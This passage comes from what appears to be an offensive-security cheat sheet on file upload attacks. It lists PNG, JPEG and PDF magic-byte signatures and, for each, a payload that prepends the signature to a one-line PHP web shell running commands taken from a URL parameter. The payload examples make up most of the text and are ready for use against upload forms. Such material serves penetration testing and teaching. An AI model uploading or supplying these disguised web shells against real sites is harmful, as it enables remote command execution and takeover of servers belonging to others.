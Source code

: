 ### [PNG](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#png)

|Hex Signature|ISO 8859-1|
|---|---|
|`89 50 4E 47 0D 0A 1A 0A`|`‰PNG␍␊␚␊`|

Payload example:

```php
‰PNG␍␊␚␊
<?php echo system($_GET['cmd']); ?>
```

### [JPG/JPEG](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#jpg%2Fjpeg)

|Hex Signature|ISO 8859-1|
|---|---|
|`FF D8 FF EE`|`ÿØÿî`|
|`FF D8 FF E0`|`ÿØÿà`|
|`FF D8 FF E0 00 10 4A 46 49 46 00 01`|`ÿØÿà␀␐JFIF␀␁`|

Payload example:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>

// or

ÿØÿà
<?php echo system($_GET['cmd']); ?>

// or

ÿØÿà␀␐JFIF␀␁
<?php echo system($_GET['cmd']); ?>
```

### [PDF](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#pdf)

|Hex Signature|ISO 8859-1|
|---|---|
|`25 50 44 46 2D`|`%PDF-`|

Payload example:

```php
%PDF-
<?php echo system($_GET['cmd']); ?>
```

